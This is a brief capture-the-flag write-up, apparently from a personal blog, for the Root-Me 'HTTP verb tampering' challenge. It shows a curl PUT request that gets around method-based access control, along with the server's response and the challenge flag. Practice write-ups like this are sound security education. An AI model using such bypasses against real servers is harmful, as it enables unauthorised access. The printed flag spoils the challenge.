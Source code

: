 ```yaml
---
title: HTTP - Verb tampering
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering](https://www.root-me.org/en/Challenges/Web-Server/HTTP-verb-tampering)

## Statement

> Bypass the security establishment.

## Solution

Just try another method than GET/POST
```sh
curl -X PUT challenge01.root-me.org/web-serveur/ch8/
```
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap
</h1>
</body></html>
```

The flag is
```
a23e$dme96d3saez$$prap
```